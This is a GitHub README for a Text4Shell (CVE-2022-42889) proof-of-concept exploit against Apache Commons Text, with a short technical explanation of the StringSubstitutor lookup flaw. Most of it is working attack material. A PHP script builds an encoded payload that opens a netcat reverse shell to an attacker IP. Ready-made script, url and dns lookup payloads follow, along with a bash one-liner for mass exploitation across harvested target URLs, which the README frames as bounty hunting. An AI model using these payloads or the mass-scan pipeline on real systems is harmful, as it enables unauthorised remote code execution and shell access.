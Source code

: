 # CVE-2022-42889-text4shell 🔥🔥🔥


https://github.com/korteke/CVE-2022-42889-POC


#
##
#


  <?php



  function create_payload($ip, $port, $type){
	  $cmd = "nc $ip $port -e $type";
	  $payload = '${script:javascript:java.lang.Runtime.getRuntime().exec(\''.trim($cmd).'\')}';
	  return urlencode($payload);
    }

  ## add {{exploit}} string to value in vulnerable parmater
  $url = "http://localhost/text4shell/attack?search={{exploit}}";
  $ip = "172.17.0.1";
  $port = 1337;
  $type = "/bin/sh";


  $payload = create_payload($ip, $port, $type);

  file_get_contents(str_replace("{{exploit}}", $payload, $url));

  //system("nc -nlvp 1337")

  ?>

##
##
##
##

Apache commons text  - CVE-2022-42889 Text4Shell proof of concept exploit.
## Details📃
CVE-2022-42889 affects Apache Commons Text versions 1.5 through 1.9. It has been patched as of Commons Text version 1.10


The vulnerability has been compared to Log4Shell since it is an open-source library-level vulnerability that is likely to impact a wide variety of software applications that use the relevant object.
However, initial analysis indicates that this is a bad comparison. The nature of the vulnerability means that unlike Log4Shell, it will be rare that an application uses the vulnerable component of Commons Text to process untrusted, potentially malicious input.
### Technical analysis
The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.

While this specific code fragment is unlikely to exist in production applications, the concern is that in some applications, the `pocstring` variable may be attacker-controlled. In this sense, the vulnerability echoes Log4Shell. However, the StringSubstitutor interpolator is considerably less widely used than the vulnerable string substitution in Log4j and the nature of such an interpolator means that getting crafted input to the vulnerable object is less likely than merely interacting with such a crafted string as in Log4Shell.

## Exploitation👨‍💻

### Manual🛠️
**script:javascript**

Replace parameter value with payload:
```
${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```
```
https://your-target.com/exploit?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup%20COLLABORATOR-HERE%27%29%7
```

**url**
```
${url:UTF-8:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```
```
https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup%20COLLABORATOR-HERE%27%29%7
```

**dns**
```
${dns:address:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```
```
https://your-target.com/exploit?search=%24%7Bdns%3Aaddress%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup%20COLLABORATOR-HERE%27%29%7

```

### Mass exploitation ⛓️

[payloads.txt](https://gist.githubusercontent.com/kljunowsky/97479082f50cd9219e80258f698c4d26/raw/7e600767bc59483653a34f17bd426340f28bf086/text4shell-payloads.txt)
```
${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}

${url:UTF-8:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}

${dns:address:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}
```
```
for payload in $(cat payloads.txt|sed 's/ COLLABORATOR-HERE/SPACEid.burpcollaborator.com/g'); do echo TARGET.com | gau --blacklist ttf,woff,svg,png | qsreplace "$payload" | sed 's/SPACE/%20/g' | grep "java.lang.Runtime.getRuntime" >> payloads-final.txt;done && ffuf -w payloads-final.txt -u FUZZ
```

#### Happy huting!💸

### Requirements🧰

[ffuf](https://github.com/ffuf/ffuf)
Thanks [@joohoi](https://github.com/joohoi)!

[qsreplace](https://github.com/tomnomnom/qsreplace)
Thanks [@tomnomnom](https://github.com/tomnomnom)

[gau](https://github.com/lc/gau)
Thanks [@lc](https://github.com/lc)

## Contact Me📇

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[ShiftSecurityConsulting](https://shiftsecurityconsulting.com)

